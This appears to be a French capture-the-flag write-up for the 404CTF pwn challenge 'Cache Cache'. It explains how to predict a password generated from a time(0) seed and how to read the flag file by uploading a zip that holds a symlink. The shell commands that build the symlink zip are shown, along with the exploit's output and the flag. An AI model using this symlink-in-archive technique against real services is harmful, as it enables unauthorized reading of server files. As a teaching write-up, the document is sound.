

## PWN / Cache Cache

<p align="center">
  
</p>


### Look around

Un challenge dont le nom rappelle celui de l'édition précédente ... d'ailleurs en comparant je me suis aperçu que l'an passé j'étais passé à côté d'une solution plus simple

Le binaire est fourni : [cache_cache_le_retour](files/cache_cache_le_retour)


### Password

Tout d'abord, il faut deviner un mot de passe ... comme l'an passé

On retrouve dans le code les fonctions qui génèrent ce pass, et on peut les recoder : [gen_pwd.c](files/gen_pwd.c)

La graine de l'aléa est initialisée avec `time(0)`, il suffit de faire pareil.

### Le flag

Ensuite en étudiant le code, on peut voir que les données que l'on va transmettre vont être :
- décodées depuis du base64
- enregistrées comme un fichier zip
- dézippées
- la première ligne du fichier dézzippé est retournée

Cela rappelle une vulnérabilité sur les liens symboliques transmis par zip ...

On peut préparer un payload :

```bash
$ echo 'OKKKKKKKKKKKKKKKKK' > salle_au_tresor
$ ln -s salle_au_tresor surprise.txt
$ zip --symlinks test.zip surprise.txt
```

J'ai un peu tatonné pour trouver le fichier contenant le flag : `flag.txt`, `salle_au_tresor.txt`, finalement `salle_au_tresor` comme dans l'énoncé.

Pour envoyer tout ça le code complet : [exploit.py](files/exploit.py)

```bash
$ python3 exploit.py REMOTE

[+] Opening connection to challenges.404ctf.fr on port 31725: Done


404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}


[*] Closed connection to challenges.404ctf.fr port 31725
```
